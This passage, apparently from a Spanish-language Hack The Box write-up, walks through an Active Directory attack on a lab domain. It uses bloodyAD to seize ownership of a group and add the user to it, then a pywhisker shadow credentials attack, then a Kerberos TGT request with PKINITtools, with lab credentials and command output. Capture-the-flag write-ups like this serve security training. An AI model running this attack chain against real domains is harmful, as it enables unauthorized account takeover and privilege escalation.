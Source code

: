 ### Ejecución 

Primero vamos a establecernos como propietarios del grupo `Management` y luego agregarnos con bloodyAD:

```bash
❯ bloodyAD --host dc01.certified.htb -d certified.htb -u judith.mader -p judith09 set owner Management judith.mader
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on Management
```

Ahora simplemente podemos darnos `GenericAll` sobre el grupo y agregarnos al mismo:

```bash
❯ bloodyAD --host dc01.certified.htb -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader
[+] judith.mader has now GenericAll on Management
❯ bloodyAD --host dc01.certified.htb -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader
[+] judith.mader added to Management
```

Por lo que entonces, ejecutando `pywhisker` para hacer un ataque de shadow credentials:

```bash
❯ pywhisker -t management_svc -a add -d certified.htb -u judith.mader -p judith09 -f owo.pfx                   
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e8d927db-e2d6-8431-0a11-853cae66d14b
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: owo.pfx.pfx
[*] Must be used with password: hhHh5uPdrgduLF3ngGRW
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

> Sí, he preferido hacer el shadow credentials sobre el Kerberoasting por razones obvias.
{: .prompt-info }

Ahora podemos hacer uso de [pkINITTools](https://github.com/dirkjanm/PKINITtools) para obtener un TGT con este certificado.

```bash
❯ gettgtpkinit.py -cert-pfx owo.pfx.pfx -pfx-pass hhHh5uPdrgduLF3ngGRW -dc-ip dc01.certified.htb 'certified.htb/management_svc' thing.ccache
2025-03-18 22:14:41,382 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-18 22:14:41,410 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-18 22:14:56,326 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-18 22:14:56,326 minikerberos INFO     df7d13439526633eb78e0ca1c24fd807a0423192c45a64f7e60d0ed1d2c53e0d
INFO:minikerberos:df7d13439526633eb78e0ca1c24fd807a0423192c45a64f7e60d0ed1d2c53e0d
2025-03-18 22:14:56,335 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
❯ export KRB5CCNAME=thing.ccache 
❯ klist
Ticket cache: FILE:thing.ccache
Default principal: management_svc@CERTIFIED.HTB

Valid starting     Expires            Service principal
03/18/25 22:14:56  03/19/25 08:14:56  krbtgt/CERTIFIED.HTB@CERTIFIED.HTB
```